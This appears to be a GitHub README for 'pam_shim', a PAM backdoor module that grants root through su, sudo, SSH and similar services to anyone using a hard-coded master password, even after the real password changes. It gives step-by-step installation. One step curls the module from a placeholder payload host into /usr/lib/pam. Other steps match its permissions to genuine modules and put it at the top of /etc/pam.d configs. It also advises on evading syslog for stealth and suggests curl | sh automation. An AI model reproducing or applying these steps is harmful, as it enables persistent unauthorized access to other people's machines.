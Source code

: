 # pam_shim
A PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**

 This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using pam_shim under other conditions.

**NOTES ON SECURITY**

 pam_shim is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the password pam_shim checks against is **simply a string literal** stored in plaintext within the pam_shim binary. Anyone who greps through the binary can see it.
 ```
 $ strings /usr/lib/pam/pam_shim.so
 pam_shim
 $ # ouch!
 ```
 I know, I know, this really shouldn't happen. But it does, and I'm too lazy to do anything about it.

 Fixing it is actually only a matter of incorporating a hash function, and probably won't take long – but alas, there's never a shortage of other crap I have to do. If anyone wants to have a go at it, I'd be happy to accept a pull request.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but I've surprisingly had several people request the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically build and function on any UNIX system that employs PAM authentication. Like everything else Apple, OSX PAM headers are likely to be a bit out of whack so linux support might take a bit of trial and error. If anyone does manage to figure it out, please do tell how you've made it work.

IMPORTANT: pam_shim does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. pam_shim **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building pam_shim is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

**(1)** Move a copy of the shared library file `pam_shim.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/pam_shim.so -o /usr/lib/pam/pam_shim.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

**(2)** Change the permission attributes of `/usr/lib/pam/pam_shim.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel pam_shim.so
    # chmod 0444 pam_shim.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `pam_shim.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     pam_shim.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through pam_shim, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as pam_shim will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out!
```
$ su
Password:
#
```
After providing the pam_shim password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.
